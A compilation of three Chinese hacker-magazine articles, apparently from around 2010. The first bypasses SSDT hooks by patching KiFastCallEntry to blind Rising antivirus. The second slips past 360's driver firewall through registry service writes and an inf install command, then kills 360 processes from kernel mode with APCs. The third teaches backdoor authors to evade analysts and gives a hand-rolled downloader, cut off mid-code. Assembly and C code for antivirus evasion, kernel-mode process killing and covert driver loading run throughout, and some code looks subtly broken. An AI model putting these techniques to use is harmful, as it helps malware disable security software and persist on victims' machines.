

文/图 luke_blue

SSDT 想必大家都已经很熟悉，即 Windows 系统服务描述符表。这是将 Ring3 下的系统 API 函数和 Ring0 系统 API 函数相互联系起来的一条重要通道，不管是杀毒软件的主动防御还是病毒木马所用到的 Rootkit 技术都对 SSDT 进行争夺来达到相应目的。病毒木马常见的方法是直接在内核层恢复 SSDT 来绕过或者结束安全软件的主动防御。但是这种方法我们可以通过一些 Anti-Rootkit 工具来发现，有没有一种方法既不恢复 SSDT 同时又让安全软件的主动防御成为“睁眼瞎”呢？答案是有的，下面我就给大家介绍说明。绕过 SSDT 有两种方法。

我们知道在 Ring3 调用 ntdll.dll 的 Zw 系列函数后最终会转到 Ring0 与之对应的 Zw 系列函数，下面是对 ntdll.dll ZwWriteFile 的反汇编，如图 1 所示。



图 1.

EAX 传入的参数是服务序号，Call ds:[0x7FFE0300] 其实是调用 ntdll!KiFastSystemCall，再通过调用 syenter，从 Ring3 进入 Ring0。这里如果是 Windows 2000 的系统则采取 int 2e 指令来进入 Ring0。这里我们可以假设这样：从 SSDT 的序号 2000 位置进行扩展 SSDT.Count（函数总个数）表项，当然是因为现有的 SSDT 表中系统服务最大序号是不会超过 2000 的，再通过重定位表获取原始 SSDT 的表，从 0 开始的位置将所有的地址复制到扩展后 SSDT 表 2000 序号开始的位置。现在如果将 [EAX]+2000，这样等于选取在 SSDT 表中 2000 对应的序号，也就是保存原始的系统函数调用地址，这样就绕过原来被 HOOK 过的 SSDT。

第二种方法其实跟上面介绍的差不多，只是更简单一些，本文也是采取这种方法。我们可以在内核空间伪造一张 SSDT 表，然后想办法让系统流程改变而跳到我们构造的 SSDT 中，从而绕过原来被 HOOK 过的 SSDT。下面我就给大家详细介绍这种方法。

我认为要绕过原有的 SSDT，只需要解决的两个技术难点：一是获取原始的 SSDT 表，这个有几种方法：通过文件偏移来获取内存中的 KeServiceDescriptorTable 位置。我们采取通过 PE 文件重定位表的原理，基于 KeServiceDescriptorTable 在 KiInitSystem 函数中被初始化的指令获取 KiServiceTable 的 RVA，下面是通过 IDA 对 ntoskrnl.exe 反汇编 KiInitSystem，如图 2 所示。显而易见，在代码段 005FF37E4 处我们可以得到 KiServiceTable 的 RVA，有兴趣的黑防读者还可以结合 Windows 源代码对应反汇编代码结合分析来提高理解。



图 2

第二个难点是如何才能使系统流程改变至跳转到我们上面构造好的 SSDT。在 Ring0 级调用流程如下：Zw 系列函数→KiSystemService 函数，这个函数是中断向量 2e 的处理函数，CPU 执行 int 2e 指令，就会进入 Ring0 里的这个函数。该函数进行一些处理会转去调用 KiFastCallEntry 函数。这些函数重要执行部分在 ReactOS 中的原型如下：

```c
_KiSystemService
/* Enter the shared system call prolog */
SYSCALL_PROLOG kss_a, kss_t

/* Jump to the actual handler */
jmp SharedCode
.endfunc

.func KiFastCallEntry
TRAP_FIXUPS FastCallDrSave, FastCallDrReturn,
DoNotFixupV86, DoNotFixupApcs
_KiFastCallEntry:

/* Enter the fast system call prolog */
FASTCALL_PROLOG FastCallDrSave,
FastCallDrReturn
SharedCode:
/* Find out which table offset to use */
mov edi, eax
shr edi, SERVICE_TABLE_SHIFT
and edi, SERVICE_TABLE_MASK
mov ecx, edi

/* 如果是 user32.dll 或者 gdi32.dll 调用时，KTHREAD.ServiceTable 指向 KeServiceDescriptorTableShadow;
   如果是 ntdll.dll 调用时，KTHREAD.ServiceTable 指向 KeServiceDescriptorTable */
```

```asm
add edi, [esi+KTHREAD_SERVICE_TABLE]
// define KTHREAD_SERVICE_TABLE 0x0E
// 得到真正的系统调用表序号（ssdt || shadow ssdt）进行比较，检查是否越界
mov ebx, eax
and eax, SERVICE_NUMBER_MASK
// define SERVICE_NUMBER_MASK 0x0FFF
cmp eax, [edi+SERVICE_DESCRIPTOR_LIMIT]
jnb KiBBTUnexpectedRange

// SERVICE_TABLE_TEST=0x10，比较是否跳至 SSDT | SHADOW SSDT
cmp ecx, SERVICE_TABLE_TEST
jnz NotWin32KSysCall

// 得到当前的线程环境块
mov ecx, PCR[KPCR_TEB]
...
mov ebx, [edi+SERVICE_DESCRIPTOR_NUMBER]
xor ecx, ecx
mov cl, [eax+ebx]
mov edi, [edi+SERVICE_DESCRIPTOR_BASE]
mov ebx, [edi+eax*4]
sub esp, ecx
shr ecx, 2
mov edi, esp
cmp esi, MmUserProbeAddress
jnb AccessViolation
rep movsd
call ebx
```

上面的代码黑防的读者如果有兴趣深挖的话，可以去查阅《Windows 内核情景分析》此书。从上面给出的分析，我们可以知道要想改变流程，使系统流程跳转到我所构造“SSDT”的话，可以被 HOOK 的位置就是图 3 中被我重点标出来的地方。



图 3

如果你用本文的方法绕过 SSDT 的话，你应该将“mov edi,dword ptr [edi]”中 edi 所指向的位置改为你所伪造的 SSDT 位置；如果你要采取前面所提到通过扩展 SSDT 表的方法绕过 SSDT 的话，你可以将“mov ebx,dword ptr [edi+eax*4]”中的 [edi+eax*4] 改为 [edi+(eax+2000)*4]，偏移到你所扩展的保存着原来 SSDT 地址的位置。

```asm
pushad
pushfd
mov eax, nowSSDT
; eax=KeServiceDescriptorTable->ServiceTableBase
; edi=KeServiceDescriptorTable->ServiceTableBase ||
;     KeServiceDescriptorTableShadow->ServiceTableBase
cmp eax, edi
jnz shadow
popfd
popad
mov cl, byte ptr [eax+ebx]
mov edi, oldSSDT
jmp [lpRet]

shadow:
popfd
popad
mov cl, byte ptr [eax+ebx]
mov edi, dword ptr [edi]
jmp [lpRet]
```

上面的代码说明一下，值得注意的是你只是绕过 SSDT，所以前面判断一下该函数到底调用的是 shadow ssdt 还是 ssdt，如果是 ssdt 则用伪造的 new ssdt 的地址去替换 edi，否则不改变系统流程顺序。其他的代码我就不多说，大家可以去看我提供的源代码。

新的瑞星杀毒软件 2010 版本做测试，自己编写的 reg.exe（一个注册表启动项添加的测试程序，无其他功能，随文提供该汇编源码和编译好的 bin）被瑞星的主动防御发现并拦截，如图 4 所示。



图4

驱动编译测试环境：Windows XP SP3 + WDK7600。安装好驱动，用 WinDbg 反汇编 Kifastcallentry 函数发现已经 patch 好，如图 5 所示。



图5

驱动绕过 SSDT 表后，再次运行 reg.exe，瑞星杀毒软件没有任何主动拦截的动作提示，注册表启动项新建 Start 项成功。之前瑞星杀毒软件对修改注册表操作全部进行了拦截并保存进日志，但是现在已经失效。效果示意如图 6 所示，你还可以直接在任务管理器中直接结束瑞星进程 RsTray.exe，有兴趣的话你还可以对瑞星主动防御做做其他的测试。



图6

这篇文章到这里本应该结束，但是研究的问题却远远没有结束。如果你的机器装了 360 安全卫士的话，你会发现 360 安全卫士就在我们对 Kifastcallentry 函数 patch 后的几个字节也做了 HOOK，这也是我们用 Anti-Rootkit 工具看不到 360 安全卫士对 SSDT 做的 HOOK 的原因。因为它将过滤规则做进了 Kifastcallentry 函数的内联钩子，而且开启一个循环线程对其 HOOK 的位置进行监控，如果用 Anti-Rootkit 工具恢复挂钩的位置，它马上就会改过来。不仅 360 安全卫士，金山 2010 杀毒软件也是如此。该驱动的不足之处是，如果在安装 360 的机器上，也安装我所编写的驱动，运行不多久就会蓝屏。我猜想大概是与 360 挂钩的位置有冲突，有兴趣的可以继续研究 360 关于 Kifastcallentry 函数的 inline hook，我就不多说了，毕竟人家是成熟的商业软件！

> （编辑提醒：本文涉及的代码已收入随书光盘，请到光盘中查找）

前置知识：VC  
关键词：编程，驱动，防火墙

## 绕过360驱动防火墙

##### 加载驱动研究

文/图 虎剑


360 推出了免费的杀毒软件 360 杀毒，给国产杀毒软件免费开了先河。先不说其他的，单从为广大网民节省的许多杀毒软件使用费来说就让人非常敬佩。单独安装之后发现 360 杀毒自己没有做自我保护（安装包是 1.0.0.1070 版的，不知道其他版本的情况，可以自己看看），起保护的主要是 360 安全卫士。由于 360 安全卫士用户非常多，所以估计现在有许多都是 360 杀毒 + 360 安全卫士的组合。现在的 360 安全卫士带了驱动防火墙功能，加载驱动就会被拦截。

这几天找了个时间看了看怎么绕过 360 的驱动防火墙，因为在用户态结束 360 似乎不太可能了。看雪论坛里传出用模拟关机结束 360 的代码，但是现在 360 已经修补了这个漏洞，所以只能在 Ring0 考虑。通过观察发现，通常在 360 安全卫士开启所有保护的情况下，没有签名的程序加载驱动时有提示，并且在没有联网情况下默认阻止；在联网时似乎会到服务端去验证文件是否危险（估计是验证 MD5 之类的，没有逆向不太清楚）。比如说 XueTr 的驱动在断网时默认阻止，在联网时默认允许加载；如果加载驱动的是有签名的程序，默认似乎总是允许的（用 net start 命令启动服务就是这种情况，没有尝试所有情况）。

个人觉得这样处理也有点不妥，虽然不管是以上哪种加载驱动情况，360 都会给出驱动加载提示，但因为大部分电脑用户并没有太多的安全意识，在看到提示时一般直接单击确定或者关闭，而单击关闭也会执行默认操作，所以从用户这里其实也可以突破一下。可以用 system 来调用 net start dos 命令试试，在安全意识没有完全普及的情况下，这招还是有几率可以绕过 360 驱动防火墙的。

看到提示窗口给人的第一种攻击方法似乎就是发送消息进行攻击，不过这一招很不幸，在最新版 360 安全卫士中，用 FindWindow(EX) 是没办法得到 360 的窗口句柄的，用 GetWindow 可以得到几个 360 开头的窗口句柄，不过得到了也作用不大，360 做了保护（测试时使用 WM_CLOSE 消息，发现没什么用，消息洪水攻击时主界面会卡死，但是那个提示框却不受什么影响）。因此，消息攻击这条思路到此放弃。

之后又想到，如果让操作系统来启动我们的驱动，360 不就不会拦截了吗？于是我想到的另一个方法就是写注册表注册一个服务，将其设置为开机自动启动。我一开始以为 360 那个服务监测也是像监测开机启动项一样，开启一个计时器去看注册表的变化，所以想到在捕获关机消息时再写注册表来注册服务，在这个短暂的时间里，用户可能看不到那个服务安装提示框。下面就给出一段代码来实现这个工作，在拦截到关机消息时写注册表。

具体结束 360 的驱动代码稍后讨论。这个代码实现在拦截到关机信息时写注册表，其实就是在收到 WM_QUERYENDSESSION 消息时写注册表了。这个消息在 Windows 向程序询问是否可以结束会话时发出。注册服务只需要在 `HKLM\system\CurrentControlSet\services` 下增加一个子键，再增加几个值，分别是 type 类型；内核驱动设置为 1，start 启动类型，0 为引导时，1 为自动，ErrorControl 是错误控制方法，填 1 就可以了。ImagePath 就是我们的驱动路径。

```cpp
BOOL CWritRegDlg::OnQueryEndSession()
// 询问关机的处理函数
{
    if(!CDialog::OnQueryEndSession())
        return FALSE;
    HKEY Root=0;
    RegCreateKeyEx(HKEY_LOCAL_MACHINE,"system\\CurrentControlSet\\services\\test",NULL,NULL,0,KEY_WRITE|KEY_READ,NULL,&Root,NULL);
    if(Root!=NULL){
        DWORD Data1=1;
        RegSetValueEx(Root,"Start",0,REG_DWORD,(PUCHAR)&Data1,sizeof(DWORD));
        RegSetValueEx(Root,"Type",0,REG_DWORD,(PUCHAR)&Data1,sizeof(DWORD));
        RegSetValueEx(Root,"ErrorControl",0,REG_DWORD,(PUCHAR)&Data1,sizeof(DWORD));
        char Name[]="TestDriver";
        RegSetValueEx(Root,"DisplayName",0,REG_SZ,(PUCHAR)Name,sizeof(Name));
        UCHAR Buffer[]="\\??\\c:\\KernelHelpsys";
        RegSetValueEx(Root,"ImagePath",0,REG_EXPAND_SZ,(PUCHAR)Buffer,sizeof(Buffer));
        RegCloseKey(Root);
    }
    return TRUE;
}
```

以上代码都比较简单，写好之后测试一下，电脑重启之后我们的驱动成功加载了。并且会意外发现，360 的服务查看里面居然没有我们的服务，在 msconfig 里面也看不到，但是驱动确实是运行起来了。根据以上的思路，我们很快想到，用 inf 文件加载 WDM 驱动或者 WDF 驱动并设置为开机自动运行也是可行的，并且极有可能许多驱动防火墙都没有限制这种操作。这两种驱动都可以在 inf 文件里指定其启动方式为自动或者电脑启动时启动，只需要写注册表就可以了。之后电脑重启后驱动就会运行，挂钩 NtLoadDriver 或者其他函数是没有用的。

故使用了 DDK 自带的那个文件过滤驱动对 360 安全卫士做测试，可以执行以下命令来安装 inf 文件：`rundll32.exe setupapi,InstallHinfSection DefaultInstall 132 .\sfilter.inf`，在 inf 文件里面将启动类型设置为计算机启动时启动。在 WDM 驱动的 inf 文件里，和服务有关的节只有 Service 节，一般内容如下：

```ini
[Sfilter.Service]
DisplayName    = %SfilterServiceName%
Description    = %SfilterServiceDesc%
ServiceBinary  = %12%\Sfilter.sys;%windir%\system32\drivers\Sfilter.sys
ServiceType    = 2,SERVICE_FILE_SYSTEM_DRIVER
StartType      = 0,SERVICE_BOOT_START
ErrorControl   = 1,SERVICE_ERROR_NORMAL
LoadOrderGroup = "FSFilter Activity Monitor"
AddReg         = Sfilter.AddRegistry
```

该节的内容通过上面的注释就可以理解了，不多说。WDF 驱动的 inf 文件里面和服务相关的 section 和 WDM 基本一致，不再赘述。测试之后发现驱动果然成功运行，并且在正常情况下，360 不会显示 WDM 和 WDF 两种驱动的服务，所以这种方法还算隐藏。

可能一些读者对 WDM 和 WDF 并不是很熟悉。黑防以前很少有文章是使用 WDM 驱动架构的，很常见的都是 NT 式，不过这两种架构也简单，有了以前 NT 驱动的基础，相信学习一周就可以写出以前的 NT 式 Rootkit 的 WDM 版本了。当然，WDM 和 WDF 都是可以满足我们 Rootkit 需要的特征的，比如 IRP 处理、控制等，而且这两种架构都是支持大部分我们以前可以调用的函数的（WDF 中有限制，做了封装，但是调用 PS 系列函数等还是可以的）。

接下来说说驱动里结束 360 的方法，借鉴了黑防以前许多文章里的技术，使用内存清零杀进程和插入 APC 杀进程两种方法。当然了，一些程序可能对以上的结束进程的方法都做了防御，我主要看的是 360，结束 360 以上代码还是够了，所以没去想其他方法。如果某个程序在以上方面都做了防御，我们还是可以通过恢复一些钩子等方法来结束进程的。只要到了 Ring0，相信只要肯动脑筋，肯定有办法突破进程保护的。这段代码给用户态提供一个符号链接，用户态可以输入进程 pid 来结束进程，而不是在驱动完成遍历后结束全过程，当然完全可以这么做。驱动的部分代码如下：

```c
NTSTATUS KillProcessByAPC(PDEVICE_OBJECT pDeviceObject, PIRP *pirp)
{
    NTSTATUS Status = STATUS_SUCCESS;
    ULONG Pid = *(DWORD*)pirp->AssociatedIrp.SystemBuffer;
    Pid = 5; // pid是异或加密传进来的
    KdPrint(("Process id Come From ring3 :%d", Pid));
    PEPROCESS eproc = {0};
    Status = PsLookupProcessByProcessId((HANDLE)Pid, &eproc);
    if (!NT_SUCCESS(Status))
        goto End;
    PETHREAD ethread = NULL;
    __try
    {
        // 下面这两个函数是山寨版的，完整定义在Driver.h里面
        for (ethread = PsGetNextProcessThread(eproc, NULL);
             ethread != NULL;
             ethread = PsGetNextProcessThread(eproc, ethread))
        {
            Status = MyTerminateThread(ethread);
        }
    }
    __except (EXCEPTION_EXECUTE_HANDLER)
    {
        KdPrint(("Catch a exception \n"));
        long st = GetExceptionCode();
        KdPrint(("st is 0x%08X\n", st));
    }
End:
    pirp->IoStatus.Status = Status;
    pirp->IoStatus.Information = 0;
    IoCompleteRequest(pirp, IO_NO_INCREMENT);
    return Status;
}
```

PsGetNextProcessThread 是一个山寨版的函数，主要功能是遍历进程 EPROCESS 里面的 ThreadListHead 成员，获取所有线程，就是一个简单的双向链表的遍历问题，遍历之后给每一个线程插入自杀 APC。这里使用到的几个函数具体内容可以看附件里的完整代码。前面曾经说过，估计许多驱动防火墙都没拦截 WDM 的 inf 方式的驱动加载，所以趁手边有一个江民 2010 的安装包，就用张帆所著的《Windows 驱动编程详解》上的 hellowdm 测试了一下，果然江民没有拦截 inf 文件的安装。看来这还是一个通病啊。由于时间问题，没有进行大量测试，大家可以再试试其他的驱动防火墙的拦截情况。

最后说说防御这种方法加载驱动的简单思路，我上面给出的加载驱动的方法以及使用 inf 文件加载驱动的方法都是要写注册表的，所以最简单的解决措施就是挂钩注册表操作的相关内核函数，发现有写服务项的情况就提示用户，可以设置为默认阻止。这样在和 Ring3 取得联系失败的情况下也不会增加注册表项。当然可能还有更好的方法防御 WDM 和 WDF 框架的驱动加载方法，欢迎大家一起来共同探讨。最后给希望学习 WDF 驱动的读者推荐一个资料《Developing Drivers with the Microsoft Windows Driver Foundation》，这是目前除了 WDK 文档外最权威的 WDF 驱动开发书籍了。

以上结束 360 的代码在 WDK7600 下编译，用户态代码在 VC6 下编译，在 Windows XP SP2 下测试成功，对应的 360 版本是 6.1。后来到 360 官网上看时有了 6.2 beta 版，测试了一下依旧可行，只是如果把驱动放在系统盘根目录的话会认为危险行为，这个只是为了测试方便，完全可以放在其他目录。

（编辑提醒：本文涉及的代码已收入随书光盘，请到光盘中查找）

- 前置知识：VC，汇编
- 关键词：编程，Socket，免杀

#### 后门程序的“安全”之路

文／闪亮的心



通常编写后门程序都会考虑两个因素，一个是后门程序的免杀，另一个是后门程序的功能。随着杀软新技术的进一步升级，“云查杀”所带来的自动上传“未知程序”的功能，使后门程序的存活周期大大降低。那么如何使后门程序延长反病毒工程师的分析时间，甚至能从工程师手中逃脱，就是现在后门技术一个新的发展方向。

既然要反分析，那么后门程序对抗的就已经不单单是杀毒软件本身，还包括杀毒软件公司的病毒分析师。传统层面上对后门程序的保护一般都是加壳处理，要分析这样的后门程序首先就要脱壳。但是，现今存在这样一个尴尬的局面，那就是强壳（比如 VMP）会使程序体积过大，弱壳又特别容易被脱，所以后门程序只要到了反病毒工程师手里基本就死路一条了。虽然不太可能做到后门程序不被杀毒软件公司的服务器捕捉，但我们却可以在编写代码的时候设置很多障碍或者伪装，用来消耗反病毒工程师的时间。

这样后门程序的存活周期必然得到极大的提升。一般来说要做到后门程序的“安全”，我认为必须从以下三个方面入手。第一是代码的复杂性；第二是反调试器的能力；第三是反虚拟机的能力。只有从这三个方面入手，后门程序才能达到我们的要求。

首先谈谈代码的复杂性。虽然现代软件工程技术都追求化繁为简，但在后门程序的制作上就要反其道而行之，化简为繁。简单说，就是把简单的代码复杂化以增加分析时间。一般化简为繁有两种方法，第一种方法是自己封装某些敏感的 API，第二种是在敏感 API 执行过程中间添加其他代码。比如说，我们在写下载者的时候绝大多数人都喜欢用 URLDownloadToFile 来实现下载文件，反病毒工程师拿到这样的程序，只需要在 IDA 里一看，查下函数就可以定性为下载者了。再复杂一点，有些人使用 Wininet 里的函数来实现下载过程，但这也比较简单，只不过由直接下载分为几步执行，只比 URLDownloadToFile 稍微复杂了一点点而已。还有一种办法，就是通过 winsock 自己实现一个 URLDownloadToFile。

一般实现下载程序都是通过应用层协议 HTTP、FTP 实现的，而网络传输程序又都是 Socket 实现的；那么只需要了解了 HTTP 协议，我们就可以用 WinSocket 来实现一个自己的 URLDownloadToFile。

```cpp
bool Download(char *url, HWND hParent, long msg)
{
    int s;
    char m_buffer[2048];
    s = tcp.connect(hostname,80,TCP_TIMEOUT);
    if(s<0) return false;

    sprintf(m_buffer,"GET %s HTTP/1.0\r\nHost:%s\r\nAccept:*/*\r\nUser-Agent: AutoUpdate/1.0\r\n\r\n",url,hostname);
    tcp.send(s,m_buffer,strlen(m_buffer),TCP_TIMEOUT);

    ReadSize=tcp.recv(s,m_buffer,PEEK_SIZE,TCP_TIMEOUT);
    if(ReadSize==-1) return false;
    m_buffer[ReadSize]=0;

    AllSize=atoi(hostname);
    memset(hostname,0,256);

    int i;
    i=strstr(m_buffer,"\r\n\r\n");
    if(i>0){
        memcpy(m_heads,buffer,m_buffer,i+4);
        headFinished=true;
        ReadSize=ReadSize-i-4;
        OnDataRecived(m_buffer+i+4,ReadSize,true);
    }
}
```

